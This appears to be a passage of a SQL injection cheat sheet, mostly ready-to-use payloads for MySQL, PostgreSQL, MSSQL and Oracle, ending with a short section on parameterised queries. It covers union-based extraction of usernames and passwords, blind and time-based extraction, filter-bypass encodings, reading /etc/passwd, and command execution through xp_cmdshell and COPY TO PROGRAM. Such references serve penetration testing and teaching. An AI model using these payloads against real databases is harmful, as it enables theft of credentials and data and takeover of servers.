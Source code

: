 Note: For GET requests, remember to URL encode special characters.

Quick Validation Tests
sql-- Test with comments
param=' or 1=1#
param=' or 1=1-- 
param=' or 1=1//
param=' or 1=1/* comment */

🚨 Error-Based Detection
Triggering Database Errors
sql-- MySQL error triggers
param=' and extractvalue(1,concat(0x7e,version(),0x7e))--
param=' and updatexml(null,concat(0x0a,version()),null)--

-- PostgreSQL error triggers
param=' and cast(version() as int)--

-- MSSQL error triggers
param=' and 1=convert(int,@@version)--

-- Oracle error triggers
param=' and 1=ctxsys.drithsx.sn(1,(select banner from v$version where rownum=1))--

🔗 Union-Based Injection
Column Number Detection
sql-- Determine number of columns
param=' order by 1--     -- (no error)
param=' order by 2--     -- (no error)
param=' order by 3--     -- (no error)
param=' order by 4--     -- (error = 3 columns)
Union SELECT Testing
sql-- Test union compatibility
param=' union select null,null,null--

-- Identify visible columns
param=' union select 1,2,3--

-- Use concat for single column output
param=' union select concat(1,':',2,':',3)--
Data Extraction
sql-- Extract database information
param=' union select version(),user(),database()--

-- Extract table names
param=' union select table_name,null,null from information_schema.tables--

-- Extract column names
param=' union select column_name,null,null from information_schema.columns where table_name='users'--

-- Extract data
param=' union select username,password,email from users--

👁️ Blind SQL Injection
Boolean-Based Blind Injection
sql-- Test for blind injection
param=' and (select 1)=1--                    -- TRUE
param=' and (select 1)=2--                    -- FALSE

-- Database name length
param=' and length(database())=8--

-- Database name character by character
param=' and substring(database(),1,1)='a'--
param=' and ascii(substring(database(),1,1))=97--

-- Table existence
param=' and (select count(*) from users)>0--

-- Data extraction
param=' and ascii(substring((select username from users limit 1),1,1))=97--
Advanced Blind Techniques
sql-- Binary search optimization
param=' and ascii(substring(database(),1,1))>96--
param=' and ascii(substring(database(),1,1))<123--

-- Error-based blind injection
param=' and (select count(*) from (select 1 union select 2 union select 3)x group by concat(database(),floor(rand(0)*2)))--

⏱️ Time-Based Blind Injection
MySQL Time Delays
sql-- Basic delay test
param=' or sleep(5)--

-- Conditional delay
param=' and if(length(database())=8,sleep(5),0)--

-- Character-by-character extraction
param=' and if(ascii(substring(database(),1,1))=97,sleep(5),0)--
PostgreSQL Time Delays
sql-- Basic delay
param='; select pg_sleep(5)--

-- Conditional delay
param=' and case when length(current_database())=8 then pg_sleep(5) else 0 end--
MSSQL Time Delays
sql-- Basic delay
param='; waitfor delay '00:00:05'--

-- Conditional delay
param=' if len(db_name())=6 waitfor delay '00:00:05'--

📊 Information Gathering
MySQL Information Schema
sql-- Database version and user
SELECT version(), user(), database();

-- List all databases
SELECT schema_name FROM information_schema.schemata;

-- List tables in current database
SELECT table_name FROM information_schema.tables WHERE table_schema=database();

-- List columns in a table
SELECT column_name FROM information_schema.columns WHERE table_name='users';

-- List privileges
SELECT privilege_type FROM information_schema.user_privileges WHERE grantee="'user'@'host'";
PostgreSQL System Tables
sql-- Database version
SELECT version();

-- Current database and user
SELECT current_database(), current_user;

-- List all databases
SELECT datname FROM pg_database;

-- List tables
SELECT tablename FROM pg_tables WHERE schemaname='public';

-- List columns
SELECT column_name FROM information_schema.columns WHERE table_name='users';
MSSQL System Tables
sql-- Database version
SELECT @@version;

-- Current database and user
SELECT db_name(), user_name();

-- List databases
SELECT name FROM sys.databases;

-- List tables
SELECT name FROM sys.tables;

-- List columns
SELECT name FROM sys.columns WHERE object_id=object_id('users');

🛡️ Filter Bypass Techniques
Case Variation
sqlparam=' UnIoN sElEcT 1,2,3--
param=' uNiOn aLl sElEcT 1,2,3--
Comment-Based Bypass
sql-- MySQL
param=' un/**/ion sel/**/ect 1,2,3--
param=' /*!union*/ /*!select*/ 1,2,3--

-- MSSQL
param=' un/**/ion sel/**/ect 1,2,3--
Encoding Bypass
sql-- URL encoding
param=%27%20union%20select%201,2,3--

-- Double URL encoding
param=%2527%2520union%2520select%25201,2,3--

-- Hex encoding (MySQL)
param=' union select 0x48656c6c6f,2,3--
Space Bypass
sql-- Tab, newline, form feed
param='/**/union/**/select/**/1,2,3--
param=' union%0aselect%0a1,2,3--
param=' union%0dselect%0d1,2,3--
param=' union%0cselect%0c1,2,3--
param=' union%09select%091,2,3--

-- Parentheses
param='union(select(1),2,3)--

-- Plus signs
param='+union+select+1,2,3--
Keyword Bypass
sql-- Doubled keywords
param=' ununionion seselectlect 1,2,3--

-- Alternative operators
param=' || 1=1--        -- (OR equivalent)
param=' && 1=1--        -- (AND equivalent)

🗄️ Database-Specific Payloads
MySQL
sql-- Version detection
SELECT @@version;

-- File operations (if FILE privilege)
SELECT load_file('/etc/passwd');
SELECT 'content' INTO OUTFILE '/tmp/file.txt';

-- Concatenation
SELECT concat(username,':',password) FROM users;

-- Substring
SELECT substring(username,1,1) FROM users;
PostgreSQL
sql-- Version detection
SELECT version();

-- Command execution (if superuser)
COPY (SELECT '') TO PROGRAM 'id';

-- String functions
SELECT substr(username,1,1) FROM users;
SELECT username||':'||password FROM users;
MSSQL
sql-- Version detection
SELECT @@version;

-- Command execution
EXEC xp_cmdshell 'whoami';

-- String functions
SELECT substring(username,1,1) FROM users;
SELECT username+':'+password FROM users;
Oracle
sql-- Version detection
SELECT banner FROM v$version;

-- String functions
SELECT substr(username,1,1) FROM users;
SELECT username||':'||password FROM users;

-- Dual table requirement
SELECT 1 FROM dual;

🔒 Prevention & Mitigation
Secure Coding Practices
python# BAD - Vulnerable to SQL injection
query = f"SELECT * FROM users WHERE id = {user_id}"

# GOOD - Using parameterized queries
cursor.execute("SELECT * FROM users WHERE id = %s", (user_id,))
java// BAD - String concatenation
String query = "SELECT * FROM users WHERE id = " + userId;

// GOOD - Prepared statements
String query = "SELECT * FROM users WHERE id = ?";
PreparedStatement stmt = connection.prepareStatement(query);
stmt.setInt(1, userId);
